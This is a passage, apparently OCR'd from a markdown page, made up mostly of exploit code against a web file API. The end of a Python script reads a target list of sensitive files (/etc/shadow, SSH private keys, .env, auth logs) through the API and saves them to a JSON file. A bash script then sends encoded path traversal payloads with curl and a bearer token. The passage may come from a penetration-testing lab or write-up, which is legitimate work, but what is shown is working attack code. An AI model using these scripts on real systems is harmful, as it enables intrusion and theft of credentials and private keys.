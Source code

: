    ```python
                   print(f"Failed to read {file_path}: HTTP {response.status_code}")
                   
           except requests.exceptions.RequestException as e:
               print(f"Error reading {file_path}: {e}")
       
       return results
   
   # Target files
   sensitive_files = [
       '/etc/passwd',
       '/etc/shadow',
       '/etc/hosts',
       '/proc/version',
       '/proc/cpuinfo',
       '/app/.env',
       '/app/package.json',
       '/root/.ssh/id_rsa',
       '/home/user/.ssh/id_rsa',
       '/var/log/auth.log'
   ]
   
   token = "your_jwt_token_here"
   file_contents = read_files(token, sensitive_files)
   
   # Save results
   with open('lfi_results.json', 'w') as f:
       json.dump(file_contents, f, indent=2)
   ```

2. **Path Traversal Automation**
   ```bash
   #!/bin/bash
   # Automated path traversal testing
   
   TOKEN="your_jwt_token_here"
   BASE_URL="http://localhost:3000/api/files"
   
   # Test various path traversal payloads
   PAYLOADS=(
       "../../../../etc/passwd"
       "..\\..\\..\\..\\etc\\passwd"
       "%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
       "....//....//....//....//etc/passwd"
       "..%252f..%252f..%252f..%252fetc%252fpasswd"
   )
   
   for payload in "${PAYLOADS[@]}"; do
       echo "Testing payload: $payload"
       curl -s -H "Authorization: Bearer $TOKEN" \
            "$BASE_URL/$payload" | head -5
       echo "---"
   done
   ```
